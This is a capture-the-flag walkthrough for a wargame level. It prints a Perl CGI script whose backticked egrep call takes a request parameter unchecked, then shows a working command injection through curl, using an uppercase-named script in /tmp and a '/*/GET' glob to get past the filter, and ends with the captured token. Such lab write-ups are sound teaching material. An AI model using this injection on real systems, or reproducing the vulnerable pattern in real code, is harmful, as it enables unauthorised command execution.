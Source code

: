 # level12 solve

To begin, when we get logged and trying to see if we got the file we can see we have one file ` level12.pl `

```
$ ls
> level12.pl
```

As level04, it's a <a href="https://fr.wikipedia.org/wiki/Perl_(langage)">Perl</a> file, so we decide to check what he contain.

```
$ cat level12.pl  
```
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

With that we can see 4 important elements :

```
- localhost:4646 -> url, so we can try to call the website with curl

- n(t(param("x"), param("y"))); -> parameters who can contain a value

- $xx = $_[0];        |	  First parameter (x) will be transform
  $xx =~ tr/a-z/A-Z/; | ->  to uppercase and 
  $xx =~ s/\s.*//;    |	  remove spaces

- @output = `egrep "^$xx" /tmp/xd 2>&1`; -> will be breakable with a code injection cause of ` character
```

According to elements, we should make an injection using an uppercase file (read permisssion) who write ```getflag``` return value on another file

```
$ echo "getflag > /tmp/flag" > /tmp/GET
$ chmod 777 /tmp/GET
```

Ok let's do this

```
$ curl 127.0.0.1:4646?x='`/*/GET`'
> ..
$ cat /tmp/flag
> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level11">previous level</a> - <a href="../../level13">next level</a>
